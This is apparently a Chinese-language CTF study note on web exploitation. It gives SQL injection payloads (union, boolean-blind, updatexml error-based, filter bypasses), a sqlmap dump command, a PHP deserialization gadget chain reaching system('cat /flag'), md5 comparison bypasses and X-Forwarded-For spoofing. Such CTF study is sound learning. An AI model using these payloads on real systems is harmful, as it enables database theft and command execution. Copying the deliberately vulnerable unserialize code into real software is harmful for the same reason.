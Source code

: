 # CTF WEB

## SQL注入

1. 先找到是数字型注入还是字符型注入 并判断闭合符

​	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

​	?id=1' and 1=2--+ -> 判断‘是否为闭合符

2. 找到回显位

​	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

​	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```



4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+

6. 跳过过滤：

   空格：转换为/**/

   union：双写为ununionion

#### 布尔盲注

没有回显位时可用此方法注入 需用python脚本自动化此方法 但是待学习python脚本编程

1. 先找到数据库名的长度

   ```sql
   ?id=1 and length(database())=1
   #query_error
   ...
   ?id=1 and length(database())=4
   #query_success
   #库名长度为4
   
   ```

   

2. 在利用substr函数挨个找到database()的名字

   ```sql
   ?id=1 and substr(database(),1,1)=‘a’
   #query_error
   ...
   ?id=1 and substr(database(),1,1)=‘s’
   #query_success
   #库名第一个字符是s
   ...
   ?id=1 and substr(database(),4,1)=‘i’
   #query_success
   #库名第四个字符是i
   #库名是sqli
   
   ```

3. 此后便根据此找到database 的 表个数 表名 列个数 列名 内容 即可

   **人工巨麻烦，必须找到利用python脚本的方法**

#### 报错注入

当网站开启错误调试信息时可用此方法注入（不然只能盲注）

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump

## 反序列化

如何跳过__wakeup函数？

O:6:"HaHaHa":***3***:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

如上所示 对象本该只有两个属性 admin 和 passwd ，将数量设置为3即可在反序列化中跳过wakeup函数。

例题：

```php
<?php
error_reporting(0);
class dxg
{
   function fmm()
   {
      return "nonono";
   }
}

class lt
{
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
    
   function __construct()
   {
      $this->impo = new dxg;
   }
   function __wakeup()
   {
       # 此处污染impo属性 需要跳过wakeup
      $this->impo = new dxg;
      return $this->impo->fmm();
   }

   function __toString()
   {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
          # 此处可以调用impo属性的fmm方法 只用是impo属性为fin对象即可
         return $this->impo->fmm();
   }
   function __destruct()
   {
      echo $this;
   }
}

class fin
{
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm()
   {
      $b = $this->a;
      $b($this->title);
   }
}

if (isset($_GET['NSS'])) {
   $Data = unserialize($_GET['NSS']);
} else {
   highlight_file(__file__);
}
```

思路：

先找到能找到能回显flag的点位

此处点位在调用fin类中的fmm方法，只需将$b="system" title="cat /flag" 即可

如何调用fin类中的fmm方法呢？再往上看 可知在lt类中的__toSrting函数会调用fmm方法

我们需要构造一个lt类并将其反序列化即可。







## PHP伪协议

如何回显文件？

system(cat /flag)

#### 文件包含

posh不要随便加空格

如何绕过waf？

先利用伪协议查看index.php的编码

找到条件并跳过即可

## 绕过

#### md5数组绕过

```
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```

此时传入两个数组即可，因为数组可以被传入md5，但是会返回NULL。

#### md5弱比较绕过

```php
$first==md5($first)
```

$first=0e215962017

#### 双写绕过

```
$str = preg_replace('/NSSCTF/',"",$_GET['str']);
```

这里屏蔽了NSSCTF 只要我们这样写： NSSNSSCTFCTF 中间的NSSCTF就会被替换，留存下来的字符仍然是NSSCTF。

## XXF

从本地页面跳转使用

X-Forwarded-For: 127.0.0.1

Referer:127.0.0.1

遇到将字符作为语句执行 可以将该字符设置为system("cat /f*")

